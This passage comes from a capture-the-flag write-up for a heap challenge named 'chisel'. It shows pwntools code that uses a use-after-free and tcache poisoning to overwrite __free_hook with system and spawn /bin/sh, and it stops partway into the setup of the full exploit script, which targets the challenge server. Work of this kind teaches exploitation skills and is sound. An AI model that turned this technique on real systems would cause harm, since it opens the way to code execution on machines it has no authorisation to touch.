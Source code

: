 #### hook -> system -> /bin/sh

with UAF and tcache in our control, the next step is quite self explanatory, do tcache poisoning into one of the hook with system and spawn a shell.

```python
free()

hook = mangle(heap, libc.sym['__free_hook'])
edit(hook)

alloc(0x10)
alloc(0x10)
edit(libc.sym['system'])

alloc(0x40)
edit(0x0068732f6e69622f)    # /bin/sh
free()                      # trigger system
```

<figure><img src="../../.gitbook/assets/image (38).png" alt="" width="409"><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chisel'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = 'challs.umdctf.io', 31447

def initialize(argv=[]):
    if args.GDB:
```